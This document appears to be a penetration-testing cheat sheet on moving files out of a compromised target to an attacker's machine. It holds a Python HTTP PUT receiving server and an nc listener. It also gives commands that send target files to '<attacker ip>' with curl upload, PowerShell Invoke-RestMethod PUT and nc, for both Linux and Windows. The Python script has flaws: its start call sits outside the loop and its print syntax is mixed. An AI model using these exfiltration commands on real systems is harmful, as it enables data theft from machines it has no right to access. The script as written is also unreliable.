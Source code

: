 :arrow_forward: Downloading a file from the server with SSH

command 

```shell
scp <remote server username>@<remote server IP>:/<remote server folder>/<remote server filename> /<local folder>/<local filename>
# e.g., scp tester@192.168.10.99:/Users/tester/Desktop/123.txt /tmp/123.txt
```

:arrow_forward: Uploading a file from target server to our local HTTP server

HTTPutServer.py

```py
import sys
import signal
from threading import Thread
from BaseHTTPServer import HTTPServer, BaseHTTPRequestHandler



class PUTHandler(BaseHTTPRequestHandler):
    def do_PUT(self):
        length = int(self.headers['Content-Length'])
        content = self.rfile.read(length)
        self.send_response(200)
        with open(self.path[1:], "w") as f:
            f.write(content)


def run_on(port):
    print("Starting a HTTP PUT Server on {0} port {1} (http://{0}:{1}) ...".format(sys.argv[1], port))
    server_address = (sys.argv[1], port)
    httpd = HTTPServer(server_address, PUTHandler)
    httpd.serve_forever()


if __name__ == "__main__":
    if len(sys.argv) < 3:
        print("Usage:\n\tpython {0} ip 1337".format(sys.argv[0]))
        sys.exit(1)
    ports = [int(arg) for arg in sys.argv[2:]]
    try:
        for port_number in ports:
            server = Thread(target=run_on, args=[port_number])
            server.daemon = True # Do not make us wait for you to exit
        server.start()
        signal.pause() # Wait for interrupt signal, e.g. KeyboardInterrupt
    except KeyboardInterrupt:
        print "\nPython HTTP PUT Server Stoped."
        sys.exit(1)
```

Starting server on attacker's pc

```shell
python HTTPutServer.py <attacker ip> <attacker port>
```

Target host uploads files

Windows

```powershell
curl --upload-file test.txt http://<attacker ip>:<attacker port>/
```

```powershell
Invoke-RestMethod -Uri http://<attacker ip>:<attacker port>/<remote file name> -Method PUT -InFile <target file>
```

Linux

```shell
curl -T test.txt http://<attacker ip>:<attacker port>/
```

#### nc

Using `nc` to listen on port N

```shell
nc -lnvp 4444 > /tmp/which
```

Target host uploads files

```shell
cat /usr/bin/which | nc <attacker ip> <attacker port>
```

Windows

```cmd
nc.exe <attacker ip> <attacker port> < <target file>
```

Checking if the file is correct

attacker

```shell
md5sum /tmp/which
# e942f154ef9d9974366551d2d231d936
```

target

```shell
md5sum /usr/bin/which
# e942f154ef9d9974366551d2d231d936
```
